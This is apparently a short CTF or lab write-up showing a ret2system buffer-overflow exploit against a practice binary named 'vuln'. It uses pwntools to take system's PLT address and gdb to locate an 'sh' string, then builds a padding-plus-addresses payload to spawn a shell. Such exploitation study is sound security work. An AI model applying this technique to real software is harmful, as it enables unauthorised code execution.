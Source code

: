 # Get address of system from plt

'''
Because system function is used inside the program, we can get system addres from PLT. Add thesse two lines in exploit script

binary = ELF("./vuln", checksec=False)
system_plt_address = binary.plt.system

'''

# Get address of sh string

```
Find address of string which contains sh

gdb vuln
b main
r
find 0x8048000,0x8049000,"Check your stash"

Output: 0x8048607

x/s  0x8048607+14 => sh_address = 0x8048607 + 14

```
# Payload

```
payload = offset * b"A" + p32(system_plt_address) + 4 * b"B" + p32(sh_address)

```
